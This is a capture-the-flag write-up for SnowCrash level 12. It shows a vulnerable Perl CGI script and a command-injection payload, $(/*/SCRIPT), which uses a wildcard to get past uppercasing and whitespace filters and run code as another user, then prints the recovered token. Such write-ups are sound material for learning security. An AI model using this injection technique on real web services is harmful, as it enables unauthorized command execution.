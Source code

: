# level 12

## Recognition

There is a perl script for a simple webserver, which takes in two params x and y. x is passed as first arugment of the t() function, which is then passed to two regexes, one changing all alphabetic characters to uppercase, and another deleting all after the first whitespace, then, that string will be executed by egrep on a /tmp/xd file.
```perl
#!/usr/bin/env perl
# localhost:4646
use CGI qw{param};
print "Content-type: text/html\n\n";

sub t {
  $nn = $_[1];
  $xx = $_[0];
  $xx =~ tr/a-z/A-Z/; 
  $xx =~ s/\s.*//;
  @output = `egrep "^$xx" /tmp/xd 2>&1`;
  foreach $line (@output) {
      ($f, $s) = split(/:/, $line);
      if($s =~ $nn) {
          return 1;
      }
  }
  return 0;
}

sub n {
  if($_[0] == 1) {
      print("..");
  } else {
      print(".");
  }    
}

n(t(param("x"), param("y")));
```

</br>
</br>

## Exploitation

We then need to find a way to execute something thus bypassing the two regexes, we can't have any lowercase character nor any chains of words since only the first one gets selected.

We can try to have a script running `getflag` named in uppercase, this will bypass the first regex.
```bash
level12@SnowCrash:~$ echo 'getflag > /tmp/flag' > /tmp/SCRIPT
```

Though we now need to find a way to execute, it, for that we can use a simple bash subshell $(), However, we can't reference the /tmp folder since the first regex will uppercase it.
To tackle that, we will need to use bash wildcard * operator that will find any occurences of a matching pattern.
```bash
$(/*/SCRIPT)
```

However the webserver will be ran as flag12, so we also need to give it privileges to run the script.
```bash
level12@SnowCrash:~$ chmod a+rwx /tmp/SCRIPT
```

We can now execute the script on the browser by requesting
```
snowcrash:4646/?x=$(/*/SCRIPT)
```
And then get the flag on /tmp/flag
```bash
level12@SnowCrash:~$ cat /tmp/flag
Check flag.Here is your token : g1qKMiRpXf53AWhDaU7FEkczr
```

